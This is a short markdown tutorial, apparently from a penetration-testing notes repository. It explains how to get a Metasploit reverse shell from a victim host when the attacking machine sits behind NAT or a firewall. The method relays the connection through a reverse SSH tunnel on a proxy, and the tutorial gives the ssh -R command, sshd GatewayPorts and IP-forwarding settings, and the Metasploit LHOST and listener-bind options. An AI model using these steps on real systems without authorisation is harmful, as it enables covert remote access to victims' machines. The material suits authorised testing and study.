




# Reverse shell from behind a firewall

## Scenario
The following describes overcoming a scenario where your Metasploit instance does not have inbound connectivity for a reverse shell on a target machine to connect to. It assumes you cannot use a bind shell on the victim as an alternative.

The attacking machine could be hosted in a private network, behind a firewall with NAT or is connected to the Tor network for example.



The payload used for the reverse connection can be anything desired, i.e. reverse_tcp, reverse_http, etc.

## Setup
The prerequisite is you have access to a secondary host which the target victim host can connect to. In this example we will be using SSH to proxy the connections.

Take note of the direction of the arrows in the following diagram. The attacking host (192.168.0.1) establishes an SSH connection to the proxy (10.0.0.1) and can reach the victim host (172.16.0.1) -



1] In preparation, a reverse SSH tunnel is established from the attacking host to the proxy by invoking the ssh client on the attacking host (192.168.0.1)
```bash
ssh attacker@10.0.0.1 -R 4444:127.0.0.1:4444
```

The SSH client on the attacker will bind to 127.0.0.1:4444 on the attacking machine (10.0.0.1). The remote SSH server will also listen on port 4444.



By default SSHD will bind to the loopback interface only, but we want to allow external connectivity to this port so our victim host can connect. Use the `-g` switch or configure `GatewayPorts yes` in `/etc/ssh/sshd_config` on the SSH proxy so the socket listens on 0.0.0.0. Verify -

``` bash

$ netstat -tan | grep 4444
tcp        0      0 0.0.0.0:4444           0.0.0.0:*               LISTEN     
tcp6       0      0 :::4444                :::*                    LISTEN     

```

Note: Ensure IPv4 forwarding is enabled on the SSH proxy, i.e.  
`sysctl -w net.ipv4.ip_forward=1`

Now the exploit is triggered from Metasploit, invoking a reverse shell payload on the victim host. The victim host establishes a connection to the proxy host, rather then the attacking machine -


As there is a reverse tunnel bound to port 4444, the victim's reverse shell will effectively proxy to the attacker over the reverse SSH tunnel previously established -



There are two settings that must be configured in Metasploit for this to work -

1. Set LHOST to the IP address of the SSH proxy server, otherwise the payload executed on the victim will attempt to connect to the non-routable IP address bound to the attacker host (192.168.0.1)

```
> SET LHOST 10.0.0.1
```

2. By default Metasploit will bind to interface address specified by LHOST. Configure reverse listener to bind to the loopback address or all interfaces (0.0.0.0) -

```
> set ReverseListenerBindAddress 0.0.0.0
```

On success, a meterpreter session will be established between the attacker and the victim hosts -

